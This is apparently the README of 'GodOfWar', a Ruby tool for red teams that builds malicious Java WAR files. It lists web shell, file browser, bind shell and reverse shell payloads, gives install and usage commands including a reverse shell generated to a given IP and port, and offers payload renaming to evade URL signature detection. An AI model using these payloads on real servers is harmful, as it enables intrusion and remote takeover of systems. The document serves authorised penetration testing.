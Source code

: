 # GodOfWar - Malicious Java WAR builder
A command-line tool to generate war payloads for penetration testing / red teaming purposes, written in ruby.

```
                                `           
                               :hho/.`      
                              -hdddddhs/.   
                             .hddddddddy`   
                            .hddddddddh.    
                           `yddddddddh.     
                          `sddddddddh-      
                         `sddddddddd:       
                         oddddddddd:        
                        +ddddddddd/         
             `o-       /ddddddddd+          
            .y+       /dddddddddo`          
           .h/       :dddddddddd+`          
   .      .h/       `yddddddddddd+`         
  `dy/.  `y+         /ddddddddddddo`  `....`
   hMMNy+ss          `yddddddddddddo:ohmNNNs
   +MMMMMMd+-`        /dddddmmmmNNMMMMMMMMm/
   +MMMMMMMMNdo:`     +MNNNMMMMMMMMNmNMMMm.
 `oMMNosMMMmdNMMNy:/.`/omMMMMNomMMN+`/NMNo
.hMMMms+ydh+/yNNNNs:    `yNMMo+odmhydMMN+ 
/+//::m/-:////:--+ `      ./NMMMMMMMMNmds 
     +y          ` o.  .`   `:yNNmmmddddd+
    `m-            d-  hs     `ydddddddddd: 
    /h        :yy/`h  .omy: -` .hdddddddddh.
    h/       /h-.:o-    +y  -h/ -ddddddddddy
   `m`       /`o/  `    `` .`.d+ /dddddho:.`
   -m         .+dyo`     .ys` `o+`+dddd-    
   .+          .+s:///::`-.     `  ydds     
                 `` ````           +dd-     
             -:-.`        `.`      -do      
            /NNddddhysyhddddm/     `h.      
          `odo-``..:/o+:-.../h+`    -
          :-`   ---------.   `:/`    
               `NNNNNNNNNN     ``    
               `NNNNMMMMNN       
                ----hMMs-.       
                   `hMM+          ``
        `-..```  ./hMMM/ ``   `.:oh-
        .ymmddhhymMMMMMyyds.:shmMMo 
         `sNMMMMMMMMMMMMMMMNMMMMMy` 
           /NMMMMMMMMMMMMMMMMMMMm.  
            -dMMMMMMMMMMMMMMMMNm:   
             .yMMMMMMMMMMMMMMo-`    
              `oNMMMMMMMMMMNNy      
                :+NMMNNmho/-`       
                    /o/-`
                                                         

GodOfWar - Malicious Java WAR builder.
```

## Features

- Preexisting payloads. (try `-l/--list`)
    - cmd_get
    - filebrowser
    - bind_shell
    - reverse_shell_ui 
- Configurable backdoor. (try `--host/-port`)
- Control over payload name. 
  - To avoid malicious name after deployment to bypass URL name signatures.

## Installation

```
$ gem install godofwar
```

## Usage
```
$ godofwar -h 

Help menu:
   -p, --payload PAYLOAD            Generates war from one of the available payloads.
                                        (check -l/--list)
   -H, --host IP_ADDR               Local or Remote IP address for the chosen payload
                                        (used with -p/--payload)
   -P, --port PORT                  Local or Remote Port for the chosen payload
                                        (used with -p/--payload)
   -o, --output [FILE]              Output file and the deployment name.
                                        (default is the payload original name. check '-l/--list')
   -l, --list                       list all available payloads.
   -h, --help                       Show this help message.
```

### Example 

**List all payloads**
```
$ godofwar -l
├── cmd_get
│   └── Information:
│       ├── Description: Command execution via web interface
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/cmd.jsp?cmd=whoami
│       ├── References:  ["https://github.com/danielmiessler/SecLists/tree/master/Payloads/laudanum-0.8/jsp"]
│       └── Local Path:  /FULL/PATH/HERE/godofwar/payloads/cmd_get
├── filebrowser
│   └── Information:
│       ├── Description: Remote file browser, upload, download, unzip files and native command execution
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/filebrowser.jsp
│       ├── References:  ["http://www.vonloesch.de/filebrowser.html"]
│       └── Local Path:  /FULL/PATH/HERE/godofwar/payloads/filebrowser
├── bind_shell
│   └── Information:
│       ├── Description: TCP bind shell
│       ├── OS:          any
│       ├── Settings:    {"port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse-shell.jsp
│       ├── References:  ["Metasploit - msfvenom -p java/jsp_shell_bind_tcp"]
│       └── Local Path:  /FULL/PATH/HERE/godofwar/payloads/bind_shell
├── reverse_shell_ui
│   └── Information:
│       ├── Description: TCP reverse shell with a UI to set LHOST and LPORT from browser.
│       ├── OS:          windows
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell_ui.jsp
│       ├── References:  []
│       └── Local Path:  /FULL/PATH/HERE/godofwar/payloads/reverse_shell_ui
```

**Generate payload with LHOST and LPORT**
```
godofwar -p reverse_shell_ui -H 192.168.100.10  -P 9911 -o puppy
```

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/[USERNAME]/godofwar.


## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

